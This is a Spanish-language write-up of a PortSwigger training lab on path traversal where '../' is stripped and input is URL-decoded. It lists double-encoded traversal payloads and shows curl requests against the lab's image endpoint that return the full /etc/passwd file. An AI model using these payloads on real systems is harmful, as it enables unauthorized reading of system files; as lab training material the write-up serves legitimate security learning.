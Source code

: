 ```yaml
---
title: Path Traversal Lab 4
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Path Traversal
tags:
  - Path Traversal
  - File path traversal, traversal sequences stripped with superfluous URL-decode
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- File path traversal, traversal sequences stripped with superfluous URL-decode

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `path traversal` en la `visualización` de `imágenes` de `productos`. La aplicación `bloquea` los `inputs` que contienen la secuencia `../` y los `url decodea` antes de usarlos. Para `resolver` el `laboratorio`, hay que `obtener` el contenido del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Path-Traversal-Lab-4/image_1.png)

Si hacemos `Ctrl + U` vemos como se están `cargando` las `imágenes`

![](/assets/img/Path-Traversal-Lab-4/image_2.png)

En la web de hacktricks [https://book.hacktricks.xyz/pentesting-web/file-inclusion#encoding](https://book.hacktricks.xyz/pentesting-web/file-inclusion#encoding) hay un apartado `Encoding` del cual podemos extraer payload encodedos

```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

Probamos un `directory path traversal`

```
# curl 'https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'          
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Si lo queremos hacerlo desde la `web` debemos poner `view-source://`

```
view-source:https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd
```

![](/assets/img/Path-Traversal-Lab-4/image_3.png)

Otra opción sería `capturar` la `petición` que se da al cargar una imagen `https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=54.jpg` con el `Burpsuite` y `encodear` el `input` de `filename` dos veces. Podemos `urlencodear` todos los `caracteres` o solo `barras`, solo `puntos` u `ambas`

```
# curl 'https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34'            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```
